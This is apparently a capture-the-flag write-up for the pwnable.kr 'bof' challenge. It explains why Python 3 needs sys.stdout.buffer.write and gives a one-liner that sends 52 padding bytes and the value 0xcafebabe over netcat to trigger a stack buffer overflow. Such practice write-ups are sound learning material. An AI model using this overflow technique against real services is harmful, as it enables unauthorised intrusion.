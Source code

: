# bof

## The Challenge

Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?

Running at : nc pwnable.kr 9000

## Solution

### One Liner

It turns out that python3 print\(\) function encodes characters as a sequence of Unicode characters instead of a sequence of bytes \[[link](https://stackoverflow.com/questions/32017389/write-different-hex-values-in-python2-and-python3)\]. Instead of print\(\), sys.stdout.buffer.write was used.

```text
(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 52 + b'\xbe\xba\xfe\xca\n')" && cat) | nc pwnable.kr 9000
```

